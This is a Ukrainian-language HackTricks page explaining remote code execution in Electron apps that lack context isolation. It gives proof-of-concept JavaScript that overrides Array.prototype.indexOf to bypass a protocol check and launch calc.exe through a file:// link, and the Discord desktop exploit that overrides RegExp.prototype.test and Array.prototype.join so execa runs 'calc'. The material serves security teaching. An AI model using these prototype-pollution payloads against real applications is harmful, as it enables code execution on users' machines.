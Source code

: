 # Electron contextIsolation RCE via preload code

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Example 1

Приклад з [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30)

Цей код відкриває http(s) посилання в браузері за замовчуванням:

![](<../../../.gitbook/assets/image (768).png>)

Щось на кшталт `file:///C:/Windows/systemd32/calc.exe` може бути використано для виконання калькулятора, `SAFE_PROTOCOLS.indexOf` запобігає цьому.

Отже, зловмисник може впровадити цей JS код через XSS або довільну навігацію на сторінці:
```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
```
Оскільки виклик до `SAFE_PROTOCOLS.indexOf` завжди поверне 1337, зловмисник може обійти захист і виконати calc. Остаточний експлойт:
```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
<a href="file:///C:/Windows/systemd32/calc.exe">CLICK</a>
```
Перевірте оригінальні слайди на наявність інших способів виконання програм без запиту дозволів.

Очевидно, ще один спосіб завантажити та виконати код - це отримати доступ до чогось на зразок `file://127.0.0.1/electron/rce.jar`

## Приклад 2: RCE додатку Discord

Приклад з [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

Перевіряючи скрипти попереднього завантаження, я виявив, що Discord відкриває функцію, яка дозволяє викликати деякі дозволені модулі через `DiscordNative.nativeModules.requireModule('MODULE-NAME')`, на веб-сторінці.\
Тут я не міг використовувати модулі, які можуть бути використані для RCE безпосередньо, такі як _child\_process_ модуль, але я **знайшов код, де RCE може бути досягнуто шляхом перевизначення вбудованих методів JavaScript** та втручання у виконання відкритого модуля.

Наступне - це PoC. Я зміг підтвердити, що **додаток calc** з'являється, коли я **викликаю функцію `getGPUDriverVersions`**, яка визначена в модулі під назвою "_discord\_utils_" з devTools, при цьому **перевизначаючи `RegExp.prototype.test` та `Array.prototype.join`**.
```javascript
RegExp.prototype.test=function(){
return false;
}
Array.prototype.join=function(){
return "calc";
}
DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();
```
Функція `getGPUDriverVersions` намагається виконати програму, використовуючи бібліотеку "_execa_", як показано нижче:
```javascript
module.exports.getGPUDriverVersions = async () => {
if (process.platform !== 'win32') {
return {};
}

const result = {};
const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;

try {
result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
} catch (e) {
result.nvidia = {error: e.toString()};
}

return result;
};
```
Зазвичай _execa_ намагається виконати "_nvidia-smi.exe_", який вказаний у змінній `nvidiaSmiPath`, однак, через переоприділений `RegExp.prototype.test` та `Array.prototype.join`, **аргумент замінюється на "**_**calc**_**" у внутрішній обробці \_execa**\_**.

Конкретно, аргумент замінюється шляхом зміни наступних двох частин.

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36)

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
